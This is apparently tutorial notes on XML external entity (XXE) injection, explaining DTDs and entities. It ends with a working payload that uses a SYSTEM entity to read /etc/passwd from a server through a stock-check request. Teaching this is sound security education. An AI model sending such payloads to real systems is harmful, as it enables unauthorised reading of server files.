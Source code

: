 XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. 
It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.


> XML external entities are a type of custom XML entity whose defined values are loaded from outside of the DTD in which they are declared.
> 
> External entities are particularly interesting from a security perspective because they allow an entity to be defined based on the contents of a file path or URL.

##  document type definition
> DTD Contains the declaration of what should contain in the XML Document structure kike the data values it contains and other value.
> The DTD is always accomplained with a DOCTYPE Element at the start of the XML document.
> If the DTD is self-contained to the documet itself then its called as **internal DTD**
> (Or) If its loaded from external then its called as **External DTD**


## XML custom entities
<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>"
> This definition means that any usage of the entity reference &myentity; within the XML document will be replaced with the defined value: "my entity value"
## XML external entities
> The declaration of an external entity uses the SYSTEM keyword and must specify a URL from which the value of the entity should be loaded. For example:.

<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
#### Exploiting XXE to retrieve files
To perform an XXE injection attack
1. Introduce (or edit) a DOCTYPE element that defines an external entity containing the path to the file.
2. Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.
````
General request:
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>

Performing XXE attack to retrive "/etc/passwd" file from the system by the following command:-
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
````
